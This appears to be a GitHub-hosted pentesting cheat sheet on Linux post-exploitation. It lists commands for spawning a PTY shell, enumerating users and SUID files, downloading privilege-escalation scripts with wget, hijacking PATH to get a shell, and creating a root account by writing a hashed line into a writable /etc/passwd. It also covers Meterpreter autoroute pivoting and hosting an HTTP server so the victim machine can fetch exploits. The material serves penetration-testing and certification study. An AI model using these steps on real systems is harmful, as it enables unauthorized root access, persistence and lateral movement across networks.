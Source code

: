 # Linux Post Exploitation


<details>
    <summary></summary>
    <br>
</details>



<details>
    <summary>Useful tips</summary>
    <br>
    
**Upgrading basic shell to terminal**

    python -c 'import pty;pty.spawn("/bin/bash")';
    
</details>


    

<details>
    <summary>Enumeration</summary>
    <br>
    
## Manual Enumeration

    uname -a
       
    ps -aux 
    
    id
    
      Find out if the user is part of groups with interesting files
      
      find / -type f -group <group> 2>/dev/null
      
  - Find all writable direcotries for copying over scripts
  
        find / -writable
        
  - Check /etc/passwd for user/ group ids

    0 is typically root ( this can be <= 500) 
    
    1000+ is where new user accounts start
     
          
  - [Local Linux Enumeration](https://www.rebootuser.com/?p=1623)
  
  
  See what sudo commands you can run
  
       sudo -l
       
</details>

<details>
    <summary>Maintain persistence</summary>
    <br>

## Metasploit modules    

  - Add user


  - Set a scheduled task
  
</details>

<details>
    <summary>Privilege escalation</summary>
    <br>
    
 Horizontal or vertical privilege escalation?
 
## Resources:
 
 
- [Privilege Escalation Cheatsheet ](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

- [guide to priv escalation](https://payatu.com/guide-linux-privilege-escalation)
 
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
 
- [OSCP guide](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html)

## Enumeration

-------------------------------------------------------

- [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
   
        wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
        
- [linpeas output explained](https://book.hacktricks.xyz/linux-unix/privilege-escalation)

--------------------------------------------------------

- [LinEnum](https://github.com/rebootuser/LinEnum)  
  
        wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh        

 
 ## Metasploit 
  
    post/linux/
 
    post/multi/recon/local_exploit_suggester

## exploits

 - searchsploit linux kernel version
   
 - searchsploit linux version
    
 - [linprivchecker](https://github.com/reider-roque/linpostexp)
  
       wget https://raw.githubusercontent.com/reider-roque/linpostexp/master/linprivchecker.py
     
       python linprivchecker.py extended
     
- [Linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)

      wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
      
      ./linux-exploit-suggester.sh
    
 <details>
    <summary>Diry Cow</summary>
    <br>
</details>


- **Kernel Kernel information**

- **Can we read/write sensitive files:** The world-writable files are shown below. These are the files that any authenticated user can read and write to. By looking at the permissions of these sensitive files, we can see where there is misconfiguration that allows users who shouldn't usually be able to, to be able to write to sensitive files.

#



<details>
    <summary>SUID</summary>
    <br>
    
 (https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) Files: SUID (Set owner User ID up on execution) is a special type of file permissions given to a file. It allows the file to run with permissions of whoever the owner is. If this is root, it runs with root permissions. It can allow us to escalate privileges.
     
    [Check GTFOBin first](https://gtfobins.github.io/)
    
    [Past SUID shells](https://github.com/Kahvi-0/Tools-and-Concepts/tree/master/Toolbox/Shells/SUID)
          
   Sometimes custom scripts will use relative pathing for commands rather than absolute. One way to abuse this would be to add . to your PATH and have a shell script in your working directory with the name of that command in the script. 
     
          echo /bin/sh > <command>    # To run <command> which then points to shell
          
          chmon 777 <command>
          
          export PATH=/<new dir>:$PATH
   
        #Manual  find directory -user root -perm -4000 -exec ls -ldb {} \; 2>&1 | grep -v "Permission denied"
        
         find / -perm -u=s -type f 2>/dev/null
</details>
         
#

<details>
    <summary>Crontab</summary>
    <br>
    
The scheduled cron jobs are shown below. Cron is used to schedule commands at a specific time. These scheduled commands or tasks are known as “cron jobs”. Related to this is the crontab command which creates a crontab file containing commands and instructions for the cron daemon to execute. There is certainly enough information to warrant attempting to exploit Cronjobs here.    
 
    cat /etc/crontab
 
 
</details>   

#


<details>
    <summary>Writable passwd file</summary>
    <br>

If we have a writable /etc/passwd file, we can write a new line entry according to the above formula and create a new user! We add the password hash of our choice, and set the UID, GID and shell to root. Allowing us to log in as our own root user!
    
 To create a new root user:
 
     Create password compliant hash
     
       openssl passwd -1 -salt [salt] [password]
       
     Add a new line in the passwd file
     
       <user>:<password hash>:root:/root:/bin/bash
</details>
    

#

</details>
   
 
<details>
    <summary>Pivoting</summary>
    <br> 

 If pwnd target has a connection to a network that we do not have a connection to, we can set up a route on the machine to forward our traffic 
 
   - Meterpreter 
       
       Note that the routes created via meterpreter only aspply to that isntance of metasploit.
        If modules are crashing the shell when trying to scan via metasploit module, try running the scan from the compromised machine itself, then launcing targeted attacks from metasploit. 
   
         run autoroute -s <target network seen via enumeration>/CIDR
         
         run autoroute -p   #to confirm
         
       you can now test by pinging a device on the remote network
       
</details>



<details>
    <summary>Methods to upload files to/from target</summary>
    <br>
    
  ## Downloading files

    python -m SimpleHTTPServer  #Host the web server
      wget <IP>:8000/exploit     # Download to victim machine

    python -m pyftpdlib 21      #Host ftp server
      ftp <IP>
      
</details>



